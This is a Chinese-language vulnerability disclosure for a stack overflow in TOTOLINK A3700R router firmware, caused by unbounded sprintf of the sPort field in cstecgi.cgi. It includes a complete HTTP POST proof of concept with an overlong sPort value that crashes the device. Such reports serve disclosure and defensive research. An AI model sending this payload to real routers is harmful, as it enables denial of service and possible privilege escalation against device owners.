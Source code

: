 

### **概述**：
影响设备：totolink A3700R
影响固件版本：V9.1.2u.6165_20211012
影响：堆栈溢出，可以造成拒绝服务和权限提升
固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>
报送邮箱 : zwx918569613@gmail.com

![](Pasted%20image%2020231022165035.png)

### **漏洞**：
该漏洞位于`cstecgi.cgi`中的函数`FUN_0041f884`，函数别名`setIpPortFilterRules`


![](Pasted%20image%2020231023212707.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
未对传入的参数`sPort`进行长度限制，而`sprintf`格式化拼接参数`sPort`到变量`acStack_70`中，存在堆栈溢出漏洞


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 586
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl": "setting/setIpPortFilterRules","addEffect":"1","sPort": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}

~~~

### **影响效果**：

![](Pasted%20image%2020231023212539.png)